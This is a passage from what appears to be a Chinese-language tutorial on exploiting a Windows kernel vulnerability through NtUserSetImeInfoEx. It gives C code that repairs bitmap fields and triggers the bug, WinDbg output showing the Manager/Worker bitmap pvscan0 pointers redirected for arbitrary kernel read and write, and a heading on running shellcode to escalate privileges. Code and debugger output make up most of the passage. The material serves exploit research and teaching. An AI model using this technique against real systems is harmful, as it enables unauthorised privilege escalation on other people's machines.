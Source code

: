 由于我们直接覆盖pvscan0后的数据，因此要对pvscan0后的其余成员变量进行填充修复，避免影响Get\SetBitmaps函数的使用，正常情况下，成员变量的值为下图中红框处，我们填充进buf当中。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01676b1388df687820.png)

```
p[1] = 0x180;
p[2] = 0x2110;
p[3] = 6;
p[4] = 0x10000;
// p[5] = 0x00000000，因为先前buf已经分配0，因此不用赋值
p[6] = 0x4800200;




//调用存在漏洞的NtUserSetImeInfoEx
HWINSTA hStation = CreateWindowStation(0, 0, READ_CONTROL, 0);
SetProcessWindowStation(hStation);
NtUserSetImeInfoEx((PVOID)&amp;buf)
```

此时，再进行调试，就可以发现，ManagerPvscan0已经指向了“WorkPvscan0的偏移量”了，Windbg调试命令如下：

```
kd&gt; !process 0 0 project3.exe
PROCESS 866c0858 SessionId: 1 Cid: 0eb0   Peb: 7ffdc000 ParentCid: 0c08
    DirBase: 3f3373c0 ObjectTable: 88257c78 HandleCount: 19.
Image: Project3.exe


kd&gt; .process /r /p 866c0858


dt _peb @$peb
+0x094 GdiSharedHandleTable : 0x00480000 Void


kd&gt; dd 0x00480000 + (0x89050cd3 &amp; 0xffff) * 0x10
0048cd30 fe674608 00000eb0 40058905 00000000


kd&gt; dd fe674608 + 0x30
fe674638 fdfe0ad0 00000180 00002111 00000
```

[![](https://p0.ssl.qhimg.com/t019879d877726fb917.png)](https://p0.ssl.qhimg.com/t019879d877726fb917.png)



至此，通过对ManagerBitmap句柄做SetBitmaps操作，即可更改WorkPvscan0指针的值，可指向内核任意地址。

**（三）替换系统函数执行ShellCode实现提权原理**

